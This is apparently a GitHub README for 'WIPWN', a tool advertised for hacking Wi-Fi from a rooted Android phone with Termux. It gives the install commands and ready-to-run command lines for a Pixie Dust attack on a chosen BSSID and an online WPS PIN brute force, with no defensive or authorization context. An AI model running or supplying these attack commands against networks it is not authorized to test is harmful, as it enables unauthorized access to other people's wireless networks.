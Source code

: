 # WIPWN
Hack wifi using termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/illusionghost3/wipwn
cd wipwn
chmod +x main.py
```

#### Help : `sudo python main --help`
#### Example : `sudo python main.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python main.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


### Thanks For Star🙏👨‍💻

[![Stargazers repo](https://reporoster.com/stars/illusionghost3/wipwn)](https://github.com/illusionghost3/wipwn/stargazers)

### Thanks For Fork 🙏👨‍💻

[![Forkers repo](https://reporoster.com/forks/illusionghost3/wipwn)](https://github.com/illusionghost3/wipwn/network/members)
